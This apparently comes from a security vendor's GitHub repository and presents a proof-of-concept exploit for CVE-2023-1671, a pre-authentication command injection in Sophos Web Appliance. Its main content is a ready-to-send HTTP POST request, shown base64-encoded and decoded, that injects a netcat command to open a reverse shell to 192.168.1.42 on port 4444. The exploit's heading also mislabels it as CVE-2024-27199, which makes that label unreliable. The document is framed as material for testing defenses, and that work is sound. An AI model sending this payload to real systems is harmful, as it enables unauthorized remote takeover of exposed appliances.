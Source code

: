 # Sophos CVE-2023-1671 PoC Exploit
CISA added Sophos Web Appliance CVE-2023-1671 Command Injection vulnerability into the Known Exploited Vulnerabilities (KEV) catalog. Although it was disclosed in April 2023, CVE-2023-1671 is actively being exploited in the wild.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2023-1671 vulnerability.

Test security controls against the CVE-2023-1671 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-1671 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2023-1671: Sophos Command Injection Vulnerability Exploited in the Wild](https://www.picussecurity.com/resource/blog/cve-2023-1671-sophos-command-injection-vulnerability-exploited-in-the-wild)


CVE-2023-1671 Proof-of-concept (POC)
----------------------
Sophos CVE-2023-1671 vulnerability stems from a vulnerable component named warn-proceed handler. The weakness is classified as CWE-77 and allows adversaries to manipulate input for pre-authenticated command injection. User inputs sent through "/index.php?c=blocked" using an HTTP POST request are routed to UsrBlocked.php and processed by escapeshellarg function.<br>

The example HTTP POST request below exploits the CVE-2023-1671 vulnerability to establish a reverse shell connection.

#### Example CVE-2024-27199 Exploit:
```http
— Base-64 encoded
POST /index.php?c=blocked&action=continue HTTP/1.1
args_reason=filetypewarn&url=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&filetype=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&user=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&user_encoded=JztuYyAtZSAvYmluL3NoIDE5Mi4xNjguMS40MiA0NDQ0ICM=
— Base-64 decoded

POST /index.php?c=blocked&action=continue HTTP/1.1
args_reason=filetypewarn&url=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&filetype=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&user=2XcjgUjbpYUmeBZwMmuiC9x9Tdy&user_encoded=';nc -e /bin/sh 192.168.1.42 4444 #
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
